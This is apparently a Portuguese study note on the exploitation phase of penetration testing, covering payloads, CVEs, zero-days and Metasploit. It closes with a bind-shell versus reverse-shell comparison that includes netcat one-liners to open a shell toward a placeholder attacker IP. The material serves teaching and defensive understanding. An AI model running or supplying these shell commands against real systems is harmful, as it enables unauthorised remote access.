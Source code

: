 # Explotation

Explora as vunerabilidade encontradas, enviando um playload para a máquina alvo.
- Priorizamos a exploração pela criticidade das vunerabilidades
- Um playload pode ser um programa ou uma shell
  - A shell conecta a máquina alvo permite executar comandos na máquiona alvo

Algumas vezes não são encontradas vunerabilidades que possam ser exploradas. Cintudo, isso não indica que não possam ocorres ataques exitosos. Nesses casos, o playload é carregado através de engenharia social.


**Sobre vunerabilidades:**
- CVE (Common Vulnerabilities and Exposures)
  - referência universal para que fabricantes, pesquisadores e empresas falem a mesma “língua” quando tratam de vulnerabilidades.
  - Formato: CVE-ANO-NÚMERO
    - Exemplo: CVE-2017-0144 (EternalBlue, usado no ataque WannaCry).
- Zero-day vulnerability: falha de segurança desconhecida pelo fabricante ou pela comunidade de segurança.
  - Não documentada publicamente – não existe CVE ou alerta oficial ainda.
  - Não tem correção – os fabricantes e usuários não podem se proteger com patch.
  - Alvo preferido de cibercriminosos e governos – porque é extremamente difícil de detectar e defender.
  - Alto valor de mercado – exploits 0-day podem ser vendidos em mercados clandestinos (ou até mesmo para agências governamentais).
  - Zero-day exploit: é o código ou técnica que explora essa falha antes que exista um patch/correção disponível.
- A vunerabilidade nem sempre é técnica, pode ser também pessoas que utilizem uma rede.
  - A maioria dos ataques são de exploração de vunerabilidades de pessoas.

A principal ferramenta utilizada durante o explotation é o **metasploit framework**.

## Reverse Shell e Bind Shell

### **Bind Shell**

* O atacante faz com que a máquina-alvo **abra uma porta e “escute” conexões externas**.
* O atacante então se conecta diretamente a essa porta para obter acesso.
* **Fluxo:**
  * Vítima → abre porta (servidor)
  * Atacante → conecta na porta (cliente)
* Exemplo:
```
# Na vítima
nc -lvp 4444 -e /bin/bash   # abre uma shell e espera conexão

# No atacante
nc <IP_da_vítima> 4444
```

### **Reverse Shell**

* Ao invés de escutar, a vítima **abre uma conexão de saída** para o atacante.
* Muito usado em ambientes protegidos por firewall, onde a máquina não aceita conexões externas, mas **pode sair para fora (outbound)**.
* **Fluxo:**
  * Atacante → escuta em uma porta
  * Vítima → conecta no atacante e envia a shell
* Exemplo:
```
# No atacante
nc -lvp 4444   # escuta esperando a shell

# Na vítima
nc <IP_do_atacante> 4444 -e /bin/bash
```

### Comparação

| Característica      | Bind Shell 🖥️➡️    | Reverse Shell ⬅️🖥️                |
| ------------------- | ------------------- | ---------------------------------- |
| Quem abre a porta?  | Vítima (servidor)   | Atacante (servidor)                |
| Quem conecta?       | Atacante            | Vítima                             |
| Mais fácil em…      | Rede sem firewall   | Rede com firewall (saída liberada) |
| Risco para atacante | IP e porta expostos | Atacante fica oculto (escutando)   |

